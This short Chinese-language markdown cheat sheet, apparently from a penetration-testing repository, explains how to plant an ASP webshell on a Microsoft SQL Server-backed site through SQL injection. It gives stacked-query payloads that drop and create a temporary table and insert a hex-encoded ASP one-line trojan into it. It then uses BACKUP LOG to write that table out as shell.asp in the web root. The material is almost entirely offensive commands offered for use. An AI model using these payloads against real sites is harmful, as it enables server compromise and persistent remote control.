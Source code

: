 

## 差异备份

差异备份容易出错

## []()log备份一句话

无非就是将一句话木马写入到数据库当中，在通过log备份，把数据库的一句话木马备份成asp文件

## []()删除表

```
 ;drop table test_tmp
```

## []()创建表

```
 ;create table test_tmp(a image);
```

## []()备份整个数据库

```
 ;backup lop mydb to disk='网站目录\sqlsever.bak' with init;
```

## []()将一句话木马写到表里

```
;insert into test_tmp(a) values (asp一句话木马的16编码)
```

## []()将表中的内容备份到指定目录下指定文件

```
  ;backup log mydb to disk = '网站目标\shell.asp'
```

